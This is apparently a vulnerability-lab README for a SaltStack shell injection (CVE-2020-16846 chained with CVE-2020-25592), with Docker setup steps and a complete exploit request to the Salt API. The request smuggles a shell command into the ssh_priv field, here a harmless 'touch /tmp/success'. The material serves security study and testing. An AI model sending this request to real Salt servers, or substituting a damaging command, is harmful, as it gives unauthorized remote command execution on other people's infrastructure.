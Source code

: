 # SaltStack Shell Injection (CVE-2020-16846)

[中文版本(Chinese version)](README.zh-cn.md)

Salt is a new approach to infrastructure management built on a dynamic communication bus. Salt can be used for data-driven orchestration, remote execution for any infrastructure, configuration management for any app stack, and much more.

In November 2020, SaltStack officially disclosed two vulnerabilities, CVE-2020-16846 and CVE-2020-25592. CVE-2020-25592 allows arbitrary user to use the SSH module, and CVE-2020-16846 allows users to execute arbitrary commands. Chain these two vulnerabilities will allow unauthorized attackers to execute arbitrary commands through the Salt API.

References:

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
- https://docs.saltstack.com/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html

## Vulnerable Environment

Execute the following command to start a SaltStack-Master service:

```
docker-compose up -d
```

After the SaltStack-Master is started, the following ports will be listened:

- 4505/4506: SaltStack-Master server, which is a bridge between master and minions
- 8000: Salt's API server, **SSL requiring**
- 2222: SSH server inside the container

## Exploit

Send the following request to `https://your-ip:8000/run`:

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

Inject the command `touch /tmp/success` through the `ssh_priv` parameter:

![](1.png)
